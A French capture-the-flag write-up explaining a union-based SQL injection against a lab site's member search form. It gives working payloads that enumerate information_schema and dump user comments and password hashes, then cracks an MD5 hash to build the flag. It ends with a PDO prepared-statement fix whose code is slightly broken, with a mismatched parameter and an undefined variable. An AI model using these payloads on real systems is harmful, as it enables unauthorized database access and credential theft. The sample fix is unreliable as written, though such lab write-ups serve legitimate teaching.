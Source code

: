 
# Explications

Dans la page "member", il y un formulaire pour faire une recherche des membres par id du site :
```html
<form  action="#"  method="GET"  data-children-count="1">
<input  type="hidden"  name="page"  value="member">
<input  type="text"  name="id"  style="width:100%;">
<br>
<input  type="submit"  value="Submit"  name="Submit">
</form>
```
On observe que si on laisse le champs vide et que l'on lance une recherche, on obtient une erreur:

**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1**

Donc on sait que le site utilise une base de donnée sous MySQL et qu'il ne gere pas les entrées non prevues.
On peut donc effectuer des injections SQL.
Celle qui a fonctionner était une **Union-Based SQL Injection**

## Etapes
On mets une condition vraie dans tous les cas

<code>1 OR 1=1</code>
> Tous les users s'affichent
<pre>
ID: 1 OR 1=1 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
</pre>

On affiche essaye d'afficher tous les noms de colonnes et de tables présentes sur la base de données a la palce du **First name** et du **Surname**

<code>1 UNION SELECT column_name, table_name FROM information_schema.columns</code>
> Toutes les tables et leurs colonnes s'affichent a la place du **First name** et du **Surname**

On cherche et on trouve un table **users** qui contient les colonnes :
1. user_id
2. first_name
3. last_name
4. town
5. country
6. planet
7. Commentaire
8. countersign

On cherche donc des informations intéressantes.
<code></code>

On try 2 part 2 les champs jusqu'à trouver 2 colonnes intéressante, **Commentaire** et **countersign** qui donnent :

<pre>
ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Barack Hussein
Surname : Obama

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
</pre>

Le password <code>5ff9d0165b4f92b14994e5c685cdce28</code> est en MD5 donc on applique un MD5 reverse et on obtient :
<pre>FortyTwo</pre>
On lower le tout et on applique un Sha256 pour obtenir le flag

# Comment éviter cela ?
```php
<?php
	function name(id) {
		try
		{
			// On se connecte
			$bdd = new PDO('mysql:host=localhost;dbname=elevage', 'sdz', '', array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION ));
			
			// On prépare la requête
			$requete = $bdd->prepare("SELECT * FROM Client WHERE email = :email");

			// On lie la variable $email définie au-dessus au paramètre :email de la requête préparée
			$requete->bindValue(':email', $email, PDO::PARAM_STR);

			//On exécute la requête
			$requete->execute();
			
			// On récupère le résultat
			if ($requete->fetch())
			{
				echo 'Le client existe !';
			}
		} catch (Exception $e)
		{
			die('Erreur : ' . $e->getMessage());
		}
	}

?>
```

